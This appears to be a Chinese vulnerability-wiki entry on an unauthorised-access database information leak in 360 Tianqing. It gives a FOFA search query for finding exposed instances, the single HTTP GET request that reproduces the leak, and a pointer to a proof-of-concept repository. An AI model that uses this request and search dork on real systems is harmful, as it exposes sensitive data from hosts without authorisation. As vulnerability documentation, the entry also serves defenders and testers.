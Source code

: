 ```yaml
---
title: 天擎 未授权越权访问
date: 2021-09-23 23:55:51
tags: PeiQi文库
categories:
 - Web应用漏洞
 - 天擎
---
```


# 天擎 数据库信息泄露漏洞

## 漏洞描述

天擎 存在未授权越权访问，造成敏感信息泄露

## 漏洞影响

> [!NOTE]
>
> 天擎

## FOFA

> [!NOTE]
>
> title="360新天擎"

## 漏洞复现

```
GET /api/dbstat/gettablessize HTTP/1.1
```

![](/img/20210924013551479028.png)

## Goby & POC

> [!NOTE]
>
> 已上传 https://github.com/PeiQi0/PeiQi-WIKI-POC Goby & POC 目录中
>
> 360_Tianqing_database_information_disclosure

![](/img/20210924013552504067.png)